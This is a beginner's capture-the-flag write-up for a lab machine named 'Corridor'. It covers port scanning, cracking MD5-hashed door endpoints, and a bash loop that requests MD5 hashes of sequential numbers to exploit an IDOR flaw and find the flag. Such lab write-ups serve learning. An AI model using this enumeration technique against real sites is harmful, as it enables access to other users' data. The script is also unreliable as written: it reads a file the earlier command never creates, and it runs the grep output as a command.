 > Corridor

# Nmap

```bash
rustscan $IP --ulimit 5000 -- -sC -sV -A -Pn

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Werkzeug httpd 2.0.3 (Python 3.10.2)
|_http-title: Corridor
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
```

In the webpage, we can view many doors and once we hover over them, we can see some kind of hash. And we can check the source code by hitting [Ctrl + U] or Right Click and View Source Code. In there we can see all the doors endpoints. We can grab all the hashes.

```bash
c4ca4238a0b923820dcc509a6f75849b
c81e728d9d4c2f636f067f89cc14862c
eccbc87e4b5ce2fe28308fd9f2a7baf3
a87ff679a2f3e71d9181a67b7542122c
e4da3b7fbbce2345d7772b0674a318d5
1679091c5a880faf6fb5e6087eb1b2dc
8f14e45fceea167a5a36dedd4bea2543
c9f0f895fb98ab9159f51fd0297e236d
45c48cce2e2d7fbdea1afc51c7c6ad26
d3d9446802a44259755d38e6d163e820
6512bd43d9caa6e02c990b0a82652dca
c20ad4d76fe97759aa27a0c99bff6710
c51ce410c124a10e0db5e4b97fc2af39
```


**Note: If you have an unknown kind of string/hash, try using hash-identifier. And for this we can get MD5 hash.** 

So let's throw all the collected hashes in Crackstation.net and identify them. Looks like all are numbers in ascending order. As from the description of the room, which said that it is an IDOR vulnerability, we can check for similar numbers being the endpoint i.e) their MD5 as the endpoint. For this we can quickly write a python script. But I wanted to learn about bash programming and so I wrote it in bash.
I am a beginner and my coding skills needs much development. So some errors may be present feel free to point out.

First I generated the hashes in bash using `md5sum` and stored it in a file called `generated_hashes`.

```bash
for i in {0..100}; do echo -n $i | md5sum | tr -d "-" | tr -d "\n"; printf "\n"; done > temp
```

And I wrote a script to parse through the file and generate a curl request. Then to check the response status code. If we get a 200 response code, then we can get our flag.

```bash
#!/bin/bash

IP=<Machine-IP>
input="generated_hashes"
while read -r line
do
	if [ $(curl -I http://$IP/$line | head -n 1 | cut -d$' ' -f2) == 200 ]; then
		$(curl http://$IP/$line | grep flag)
	else
		echo "Checking for flag"
	fi
done < "$input"
```

Once we got the new hash, throw it in the URL of format `http://IP/<hash_found>`. From this URL we can get our flag.